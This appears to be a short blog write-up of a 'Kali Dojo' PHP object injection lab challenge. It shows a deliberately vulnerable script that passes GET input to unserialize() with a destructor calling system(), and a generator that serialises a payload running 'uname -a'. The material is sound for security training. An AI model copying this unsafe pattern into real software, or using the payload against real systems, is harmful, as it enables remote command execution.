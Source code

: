 ```yaml
---
layout: post
title:  "Kali Dojo :: PHP Object Challenge"
date:   2016-09-14
---
```


![001](/img/tryharder-php-object/try-harder-001.png)

![002](/img/tryharder-php-object/try-harder-002.png)

tryharder.php

```php
<?php

class TryHarder {
	public $cmd=null;
	public function __destruct() {
		system($this->cmd);
	}
}

$offsec = unserialize($_GET['os']);

?>
```

go.php

```php
<?php

class TryHarder {
    public $cmd=null;
}

$o = new TryHarder();
$o->cmd = 'uname -a';
print urlencode(serialize($o));

?>
```

![003](/img/tryharder-php-object/try-harder-003.png)